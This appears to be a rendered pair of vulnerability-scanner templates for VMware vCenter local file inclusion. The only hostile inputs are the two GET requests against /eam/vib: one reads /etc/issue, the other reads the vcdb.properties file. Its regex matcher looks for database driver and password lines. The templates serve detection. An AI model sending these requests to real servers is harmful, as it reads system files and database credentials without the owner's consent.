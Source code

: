 ## Description

- Linux appliance based Vmware Vcenter is vulnerable to local file inclusion.
- severity - high
- tags - vmware,lfi,vcenter

## Requests

- Method - GET

### URL

- {{BaseURL}}/eam/vib?id=/etc/issue

### Matchers

**Type - word**

- words
  1. vCenter Server

---

# VMware vCenter - Local File Inclusion

## Description

- VMware vCenter is vulnerable to local file inclusion.
- severity - high
- tags - vmware,lfi,vcenter

## Requests

### Step - 1

```
GET /eam/vib?id={{path}}\vcdb.properties HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - regex**

- regex
  1. (?m)^(driver|dbtype|password(\.encrypted)?)\s=

**Type - status**

- status
  1. 200
